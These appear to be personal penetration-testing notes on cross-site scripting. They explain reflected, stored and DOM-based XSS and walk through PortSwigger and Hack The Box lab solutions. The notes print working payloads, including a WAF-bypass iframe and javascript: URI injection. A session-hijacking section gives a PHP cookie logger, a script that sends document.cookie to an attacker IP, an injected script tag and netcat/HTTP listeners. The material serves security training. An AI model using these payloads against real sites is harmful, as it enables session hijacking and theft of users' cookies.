




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# XSS


**Cross-Site Scripting (XSS)** (aka _JavaScript Injection_) occurs when an attacker injects malicious scripts into web pages viewed by other users which can result in data theft, session hijacking, or defacement of the website.

**Reflected XSS** is a type of Cross-Site Scripting where the malicious script is reflected off a web server and executed in a user's browser when they click a link or submit a form. This type of XSS is typically delivered via email or another communication method.

**Stored XSS** is a type of Cross-Site Scripting where the malicious script is stored on the target server, such as in a database, and then displayed on web pages viewed by users. This makes it more persistent and can affect multiple users who visit the infected page.

**DOM-based XSS** is a type of Cross-Site Scripting where the vulnerability exists in the client-side code rather than the server-side. The malicious script is executed as a result of modifying the Document Object Model (DOM) of the web page, typically through JavaScript.


## Examples

### Reflected XSS: WAF

> The example below is based on PortSwigger's [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) lab.

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process we did for tags to find allowed attributes (Figure 5).

<figure><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).


```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```


<figure><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

### Stored XSS: href

> The example below is based on PortSwigger's [_Stored XSS into anchor `href` attribute with double quotes HTML-encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded) lab.

In this application there is a comment functionality which also includes a `Website` field. The value of this field is stored within the HTML `href` attribute (Figure 7).

<figure><figcaption><p>Figure 7: Identifying potential XSS vectors.</p></figcaption></figure>

We can try escaping the tag with payloads such as :

```javascript
"><script>alert()</script>
">
```

Unfortunately, neither of the above payloads work. However, the `href` attribute can itself create a scriptable context, thus, we are not required to escape it. In this case, we can use the `javascript` pseudo-protocol directly (Figure 8).

```javascript
javascript:alert()
```

<figure><figcaption><p>Figure 8: Achieving Stored XSS via a URI-scheme based payload.</p></figcaption></figure>

### Reflected XSS: within JS

> The example below is based on PortSwigger's [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) lab.

This time the search keyword ends up within a block of JS[^2] code (Figure 9).

<figure><figcaption><p>Figure 9: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](sqli.md) flaw and try injecting JS[^3] code to the search keyword (Figure 10).

<figure><figcaption><p>Figure 10: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

### Session Hijacking

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="center">

<figure><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).



```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```



```bash
nc -lvnp 1337
```



<div align="center">

<figure><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket by (Figure 3):

1. Creating a script (`index.php`) that will expand the stolen cookie.
2. Creating another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Passing a payload that will request `script.js`.



```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```



```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```



```bash
python3 -m http.server 80
```



```javascript
"><script src=http://10.10.15.131/script.js></script>
```



<figure><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

Adding a new session cookie (Figure 4) and refreshing the page, gives us elevated access (Figure 5).

<div align="center">

<figure><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<div align="center">

<figure><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>

</div>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript
